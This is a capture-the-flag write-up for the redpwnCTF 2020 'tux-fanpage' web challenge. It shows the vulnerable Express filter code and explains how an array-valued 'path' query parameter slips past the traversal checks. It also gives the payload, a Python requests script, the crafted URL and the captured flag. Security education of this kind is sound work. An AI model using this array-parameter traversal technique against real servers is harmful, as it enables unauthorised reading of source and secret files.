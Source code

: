 # tux-fanpage
I knew this was a path traversal challenge from the `url` immediatly when I saw it. It's typical form of `page?path=index.html` tiped it.
We were also given the backend since there are some filters ther to prevent path traversal.
## Source code
```js
app.get('/page', (req, res) => {

    let path = req.query.path

    //Handle queryless request
    if(!path || !strip(path)){
        res.redirect('/page?path=index.html')
        return
    }

    path = strip(path)

    path = preventTraversal(path)

    res.sendFile(prepare(path), (err) => {
        if(err){
            if (! res.headersSent) {
                try {
                    res.send(strip(req.query.path) + ' not found')
                } catch {
                    res.end()
                }
            }
        }
    })
})
```
This is where we take in the input and renders out the page. But before `sendFile()` is called, the string must go through `strip` , `preventTraversal` and `prepare`
### preventTraversal
Here it checks if `dir` contains any `../` or `..\\` it removes it if it exists.
```js
//Prevent directory traversal attack
function preventTraversal(dir){
    if(dir.includes('../')){
        let res = dir.replace('../', '')
        return preventTraversal(res)
    }

    //In case people want to test locally on windows
    if(dir.includes('..\\')){
        let res = dir.replace('..\\', '')
        return preventTraversal(res)
    }
    return dir
}
```
### prepare
This function will create an absolute path using `./public/` and `dir` by concatenating them.
```js
//Get absolute path from relative path
function prepare(dir){
    return path.resolve('./public/' + dir)
}
```
### strip
Strip will get rid of all leading non-alphanumeric elements.
```js
//Strip leading characters
function strip(dir){
    const regex = /^[a-z0-9]$/im

    //Remove first character if not alphanumeric
    if(!regex.test(dir[0])){
        if(dir.length > 0){
            return strip(dir.slice(1))
        }
        return ''
    }

    return dir
}
```
## My attempts
First, I thought tha I could bypass the filters with wired encodings, but that wouldn't work here since it will need some sort of special character to work and `strip` takes care of it.  
Then I tried to do stuff within in the `assets` folder where all the images and resources are stored. No luck.
Then I say something that hinted me
## inputs
When I was closely checking the `strip` function, I saw something interesting:
```js
dir[0]
```
This seemingly checks the first character of a string, but that's only the case if we input a string. What if we send in an array? Well in that case, `strip` will only check the first element instead of the first character.
## arrays
Then I experimented with arrays by running commands in the `nodejs` console. And I found out that we could bypass the filters.  
For `preventTraversal` if we pass in an arrya to `inclues()` we check each element, instead of all characers. In this case if our paylaod is not pure `../` we could by pass it.  
For `prepare` I experimented with concatenation between string and arrays and found that it will just render the array elements with `','`.  

## Payload
Consider this payloadY:
```js
['1','/','/../../../index.js']
```
The `'1'` solves the `strip` filter, then by manipulating and testing the concatenation, we get
```
./public/+['1','/','/../../../index.js'] =
./public/1,/../../../index.js
```
which is perfect for us. But how do we input an array?
## input arrays
We could use the python requests library or we could do it by hand. Heres my python script and the printed out url.
```python
import requests
payload = {'path': ['1','/','/../../../index.js']}
r = requests.get('https://tux-fanpage.2020.redpwnc.tf/page', params=payload)
print(r.url)
print(r.text)
```
The url:
```
https://tux-fanpage.2020.redpwnc.tf/page?path=1&path=%2F&path=%2F..%2F..%2F..%2Findex.js
```
## Flag
```
const flag = 'flag{tr4v3rsal_Tim3}'
```
